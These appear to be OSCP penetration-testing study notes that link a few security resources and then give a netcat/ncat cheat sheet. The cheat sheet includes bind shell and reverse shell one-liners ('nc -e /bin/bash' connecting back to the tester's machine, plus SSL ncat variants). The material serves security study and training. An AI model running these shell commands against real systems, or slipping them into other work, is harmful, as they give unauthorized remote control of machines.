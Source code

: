 * [Checklist for devs](https://github.com/FallibleInc/security-guide-for-developers/blob/master/security-checklist.md)

* [Vulnerabilities list](http://www.tecapi.com/public/relative-vulnerability-rating-application.jsp?antiCsrfToken=null&filterCategory=1)

- [DevSecOps](https://github.com/devsecops/awesome-devsecops)


------ OSCP -----------

#### #Networking:
    * netcat options
        ```
        -C  - add line feed \r
        -n - no DNS
        ```

    * bind shell
        ```
        # listen on $ip
        +------+                 +--------------+
        |A $ip|  <- commands <- |B <our machine|
        +------+                 +--------------+
        A: nc -nlvp 4444 -e cmd.exe  # on $ip machine
        B: nc -nv $ip 4444  # on our machine
        ```

    * reverse shell
        ```
        # listen on <our machine>
        +------+                 +--------------+
        |A $ip|  <- commands <- |B <our machine|
        +------+                 +--------------+
        A: nc -nv <our machine> 4444 -e /bin/bash  # on $ip machine
        B: nc -nlvp 4444  # on our machine
        ```

    * ncat (instead of netcat)
        ```
        # bind shell
        A: ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl
        B: ncat -v $ip 4444 --ssl

        # reverse shell
        A: ncat -nv <our machine> 4444 -e /bin/bash --ssl
        B: ncat -vnl 4444 --ssl --allow $ip
        ```
